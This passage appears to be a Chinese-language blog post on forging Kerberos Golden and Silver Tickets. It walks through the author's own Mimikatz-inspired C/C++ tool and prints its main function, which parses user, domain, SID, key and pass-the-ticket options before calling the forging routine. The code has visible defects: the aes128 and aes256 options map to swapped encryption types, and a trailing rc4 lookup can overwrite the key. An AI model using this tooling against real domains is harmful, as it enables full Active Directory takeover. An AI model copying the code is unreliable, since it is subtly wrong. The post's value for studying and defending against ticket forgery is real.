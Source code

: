 TL;DR
=====

票据伪造攻击是指攻击者通过伪造 Kerberos 票据来获取未经授权的访问权限。在这种攻击中，最常见的是伪造黄金票据（Golden Ticket）或白银票据（Silver Ticket）。

黄金票据攻击是一种高级的攻击技术，攻击者获取了域控制器的域控制器账户 Krbtgt 的 Long-term Key（长期密钥，一般是哈希值），可以使用此密钥伪造任意特权账户的 Ticket Granting Ticket（TGT），并为该 TGT 插入任意的特权属性证书（Privilege Attribute Certificate Data Structure，PAC）。黄金票证使攻击者能够为 Active Directory 中的任何帐户生成身份验证材料，并完全获取的域内访问权限。

使用黄金票证，攻击者仍需要与密钥分发中心（KDC）交互才能获得 TGS。而白银票据就是通过已获取的应用程序服务器的 Long-term Key，攻击者可以绕过 KDC 直接伪造 TGS 票据。伪造后的白银票据可以用来访问特定服务器上的服务或资源。

在过去一段时间中，我一直试图探索 Mimikatz 这款经典工具的内部实现，我主要围绕 Sekurlsa、Lsadump 和 Kerberos 这几个模块开始研究。这个过程需要反汇编以及调试，并且想达到 Mimikatz 的高度是非常困难的。但是，如果我们只是想实现 Mimikatz 的某些功能，或者基于其源代码构建自己的工具，那么这个过程非常值得尝试。

在本文中，我将通过自己构建的工具，探讨伪造 Kerberos 票据的主要细节，这同时包括 Golden Ticket 和 Silver Ticket，因为它们之间是相互关联的。我在自己构建的工具时，再次阅读了 “[*\[RFC4120\] The Kerberos Network Authentication Service (V5)*](https://www.ietf.org/rfc/rfc4120.txt)” 文档并参考了 Mimikatz 项目的源代码，使我对 Kerberos 协议的理解更加深入。在阅读源码时，我能够感受到 Mimikatz 项目的开发人员在其中投入了大量精力，因为其中涉及到许多未公开的结构。这里要感谢 Benjamin Delpy（[@gentilkiwi](https://twitter.com/gentilkiwi)） 以及 Vincent Le Toux（[@mysmartlogon](https://twitter.com/mysmartlogon)） 的杰出工作和辛苦付出。

Implemented By C/C++
====================

Main Function
-------------

主函数可以通过 `GetArgsByName()` 函数从命令行获取 `user`、`domain`、`service`、`target`、`sid` 以及 `rc4` 等主要参数，用于后续伪造票据，如下所示。

```c++
int wmain(int argc, wchar_t* argv[])
{
    LPCWSTR lpUser = NULL, lpDomain = NULL, lpService = NULL, lpTarget = NULL, lpKey = NULL, lpSid = NULL;
    BOOL isPtt = GetArgsByName(argc, argv, L"ptt", NULL, NULL);
    LONG dwKeyType = KERB_ETYPE_RC4_HMAC_NT;

    GetArgsByName(argc, argv, L"user", &lpUser, NULL);
    GetArgsByName(argc, argv, L"domain", &lpDomain, NULL);
    GetArgsByName(argc, argv, L"service", &lpService, NULL);
    GetArgsByName(argc, argv, L"target", &lpTarget, NULL);
    GetArgsByName(argc, argv, L"sid", &lpSid, NULL);

    if (GetArgsByName(argc, argv, L"rc4", &lpKey, NULL) || GetArgsByName(argc, argv, L"krbtgt", &lpKey, NULL))
        dwKeyType = KERB_ETYPE_RC4_HMAC_NT;
    if (GetArgsByName(argc, argv, L"des", &lpKey, NULL))
        dwKeyType = KERB_ETYPE_DES_CBC_MD5;
    if (GetArgsByName(argc, argv, L"aes128", &lpKey, NULL))
        dwKeyType = KERB_ETYPE_AES256_CTS_HMAC_SHA1_96;
    if(GetArgsByName(argc, argv, L"aes256", &lpKey, NULL))
        dwKeyType = KERB_ETYPE_AES128_CTS_HMAC_SHA1_96;
    GetArgsByName(argc, argv, L"rc4", &lpKey, NULL);

    // Do some initialization of the Kerberos authentication package
    if (!KerberosInit())
    {
        wprintf(L"[-] Failed to start kerberos initialization.\n");
        return -1;
    }

    if (!KerberosGolden(lpUser, lpDomain, lpService, lpTarget, lpKey, dwKeyType, lpSid, isPtt))
    {
        wprintf(L"[-] Failed.\n");
        return -1;
    }

```